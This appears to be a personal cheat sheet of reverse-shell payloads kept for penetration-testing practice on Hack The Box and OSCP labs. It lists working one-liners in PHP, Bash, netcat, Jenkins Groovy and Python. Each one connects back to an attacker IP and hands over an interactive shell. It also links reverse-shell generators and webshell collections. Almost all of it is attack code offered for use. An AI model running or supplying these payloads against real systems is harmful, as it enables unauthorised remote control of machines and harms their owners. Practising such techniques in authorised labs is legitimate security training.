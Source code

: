 __tags: reverse_shell tech

## Php

```
php -r '$sock=fsockopen("10.10.14.31",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bash

``` (from Script Kiddie, htb)
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.176/4444 0>&1' #
```


## Bash2

```(From OSCP Study, this takes no " or ')
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```


## Reverse Shell Generator:

https://github.com/mthbernardes/rsg
https://www.revshells.com/

## Reverse shells:

-webshells
https://github.com/jbarcia/Web-Shells/tree/master/laudanum

-reverse shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Netcat on windows:

```
nc.exe -nv 10.10.14.31 4444 -e cmd.exe

```

## Netcat without an "-e" or "-c" option

```
/bin/sh | nc [IPADDR] [PORT]
```


## Groovy via Scipt Console on Jenkins

```groovy

String host="10.10.14.18";
int port=4444;
String cmd="sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();



```


## Python

```bash

import
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.1
0.14.2",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```